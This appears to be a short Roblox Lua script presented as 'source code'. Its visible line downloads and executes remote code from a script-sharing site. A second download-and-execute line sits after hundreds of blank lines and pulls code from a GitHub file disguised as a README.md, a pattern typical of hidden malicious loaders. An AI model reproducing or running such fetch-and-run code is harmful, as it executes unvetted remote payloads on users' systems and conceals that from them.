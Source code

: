 loadstring(game:HttpGet("https://rawscripts.net/raw/loader_1038"))()





































































































































































































































































































































































































































































































































loadstring(game:HttpGet('https://raw.githubusercontent.com/Dripsaur/PLV1/main/README.md'))()
